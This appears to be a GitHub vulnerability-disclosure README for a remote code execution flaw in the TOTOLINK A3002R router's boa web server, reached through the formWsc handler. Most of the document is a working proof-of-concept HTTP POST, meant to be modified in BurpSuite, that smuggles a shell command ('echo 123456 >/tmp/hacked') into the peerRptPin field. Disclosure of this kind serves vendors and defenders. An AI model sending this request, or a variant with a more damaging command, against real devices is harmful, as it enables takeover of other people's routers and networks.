


# totolink_A3002R_RCE

A Remote Code Execution in /bin/boa on totolink A3002R V4.0.0-B20230531.1404 via formWsc



addr :0x444f9c
RCE in sub_444398


## POC

使用BurpSuite改包如下
```
POST /boafrm/formWsc HTTP/1.1

Host: 192.168.0.1

Content-Length: 100

Cache-Control: max-age=0

Accept-Language: en-US,en;q=0.9

Origin: http://192.168.0.1

Content-Type: application/x-www-form-urlencoded

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://192.168.0.1/parent_control.htm

Accept-Encoding: gzip, deflate, br

Connection: keep-alive


sessionCheck=9c724dad350ba657c557edb39f81c100&setRptPIN=1&peerRptPin=20;echo%20123456%20>/tmp/hacked
```

